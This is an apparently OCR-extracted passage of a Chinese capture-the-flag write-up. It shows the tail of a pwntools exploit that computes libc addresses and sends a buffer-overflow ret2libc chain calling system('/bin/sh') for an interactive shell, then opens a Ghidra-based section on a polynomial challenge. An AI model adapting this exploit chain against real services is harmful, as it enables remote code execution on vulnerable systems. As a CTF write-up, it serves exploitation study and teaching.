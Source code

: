 ```python
libc_base = libc_start_main_addr - 0x7f0a4a1c7dc0 + 0x00007f0a4a19e000
info('libc_base %x', libc_base)
libc_system = libc_base - 0x00007f0a4a19e000 + 0x7f0a4a1eed60
libc_retrdi = libc_base + 0x000000000002a3e5
libc_binsh = libc_base + 0x00000000001d8698

info('final exploiting')

p.recvuntil(b'please enter your flag~(less than 0x20 characters)\n')
p.send(b'skipthis.\n')
p.recvuntil(b'What will you do to capture it?:\n')
p.send(b'skipthis.\n')
p.recvuntil(b'\n and your flag again? :')
p.send(b'z' * (tmp_addr_ret - tmp_addr_buf1) + p64(gadget_singleret) + p64(libc_retrdi) + p64(libc_binsh) + p64(libc_system) + b'\n')

p.interactive()
```



## 绝妙的多项式

拖进ghidra看看。第一题：

![image-20231021134948796](writeup_gzz.assets/image-20231021134948796.png)
